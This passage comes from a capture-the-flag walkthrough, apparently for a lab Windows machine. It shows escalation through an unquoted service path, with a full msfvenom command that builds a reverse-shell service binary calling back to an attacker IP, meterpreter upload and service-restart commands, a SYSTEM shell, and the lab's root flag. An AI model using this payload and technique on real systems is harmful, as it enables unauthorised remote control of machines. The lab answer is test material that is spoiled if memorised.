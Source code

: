 ### Q2. What is the root flag?

#### Action

To exploit this unquoted service path, generate a reverse shell payload using `msfvenom`:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.60.84 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

Upload the binary and replace the legitimate executable. Then restart the service to gain a shell as `NT AUTHORITY\SYSTEM`.

**Sample Commands:**

```bash
meterpreter > cd "C:\Program Files (x86)\IObit"
meterpreter > upload /path/to/Advanced.exe
meterpreter > sc stop AdvancedSystemCareService9
meterpreter > sc start AdvancedSystemCareService9
```

**Sample Output:**

```bash
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > cd c:/users/administrator/desktop
meterpreter > cat root.txt
9af5f314f57607c00fd09803a587db80
```

**Ans:** 9af5f314f57607c00fd09803a587db80

**Explanation:**  
By exploiting the unquoted service path, we escalate our privileges to `NT AUTHORITY\SYSTEM` and retrieve the root flag from the administrator's desktop.

## Access and Escalation Without Metasploit

To begin, we will be using the same CVE, but this time, let's use a different exploit method.

**Note:** You will need to have a web server and a Netcat listener active simultaneously for this to work!

### Preparing the Environment

First, you will need a Netcat static binary on your web server. If you don't have one, you can download it from GitHub.

You will need to run the exploit twice. The first time will pull the Netcat binary to the system, and the second will execute the payload to gain a callback.

### Uploading Netcat and Executing the Exploit

Congratulations, you're now onto the system. Next, we will use PowerShell to pull winPEAS to the system.
